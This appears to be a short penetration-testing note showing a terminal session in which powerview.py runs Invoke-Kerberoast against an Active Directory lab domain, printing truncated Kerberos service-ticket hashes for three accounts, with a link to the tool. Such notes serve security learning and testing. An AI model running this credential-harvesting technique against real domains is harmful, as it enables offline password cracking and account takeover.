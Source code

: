 ```plain
$ python3 powerview.py offsec.nl/crypt0rr@10.10.20.52
[2023-04-24 14:43:19] No credentials supplied, supply password
Password:
(LDAP)-[10.10.20.52]-[OFFSEC\crypt0rr]
PV > Invoke-Kerberoast
sAMAccountName           : EVERETT_WATTS
servicePrincipalName     : ftp/DC02
Hash                     : $krb5tgs$23$*EVERETT_WATTS$OFFSEC.NL$offsec.nl/EVERETT_WATTS*$6d5c509f4e94577a4f31f8b8b81d2eaa$43808
                           90af51c73d309100ac36267b4a70abe361ba09e1e595d69b[...]

sAMAccountName           : SUNG_LAMBERT
servicePrincipalName     : CIFS/AZRWWKS1000004
Hash                     : $krb5tgs$23$*SUNG_LAMBERT$OFFSEC.NL$offsec.nl/SUNG_LAMBERT*$1be94f7ee865f8a4a8d428b19ed451bf$8871c31
                           41d2d03aca798db0bf9e0953e0d29e933d7d89976bc08f9a7275f[...]

sAMAccountName           : KEISHA_WATERS
servicePrincipalName     : https/SECWWKS1000000
Hash                     : $krb5tgs$23$*KEISHA_WATERS$OFFSEC.NL$offsec.nl/KEISHA_WATERS*$7dc2c63ed06a6b3a1c5afe4fc99cfdee$bf271
                           37a31439273c2d8eec49a38f5f78faab30dc6c540add7fc3780c13aa4f57fcd626b64c[...]
```

## URL list

- [Github.com - Powerview.py](https://github.com/aniqfakhrul/powerview.py)
